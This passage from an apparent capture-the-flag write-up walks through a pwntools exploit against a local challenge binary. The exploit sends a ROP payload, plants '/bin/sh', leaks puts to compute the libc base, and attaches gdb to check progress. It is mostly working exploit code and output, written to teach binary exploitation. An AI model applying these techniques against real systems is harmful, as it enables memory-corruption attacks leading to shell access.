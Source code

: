 Now, let's send the payload and parse the leaked LIBC address:-

```python
payload += p64(elf.symbols['main']) # This will shift the `RIP` to `main` function, hence calling the function again.
p.sendlineafter(b"warrior\n", "Robin") # This will be given to the first input program is asking for.
p.sendlineafter(b"me?\n", payload) # Now, we will send the payload.
p.sendline("/bin/sh\x00") # The `/bin/sh` string is being sent such that it'd be stored to the writable address.

leak = u64(p.recv(6).strip().ljust(8, b"\x00")) # Receiving the address and padding it such that it'll be 8 bytes. 

libc.address = leak - libc.symbols['puts'] # Subtracting the leaked address from the LIBC absolute address of `puts` will  give us the base address.
log.info("puts@libc : " + hex(leak)) # Printing the leaked address.
log.info("libc      : " + hex(libc.address)) # Printing the libc base address
log.info("'/bin/sh' : " + str(writable_address)) # Printing `/bin/sh` address.
```

Let's run the script and check it in `gdb` if we are on the right way or not:-

```asm
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 14517
[*] Paused (press any to continue)

```

Now, attach it to `gdb`:-

```asm
d4mianwayne@oracle:~/pwn1$ gdb-gef -q chall
Reading symbols from chall...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 2 commands could not be loaded, run `gef missing` to know why.
gef➤  attach 14517
Attaching to program: /home/d4mianwayne/pwn1/chall, process 14517
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.27.so...done.

-- snip --

x/read.c:27
27	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
```
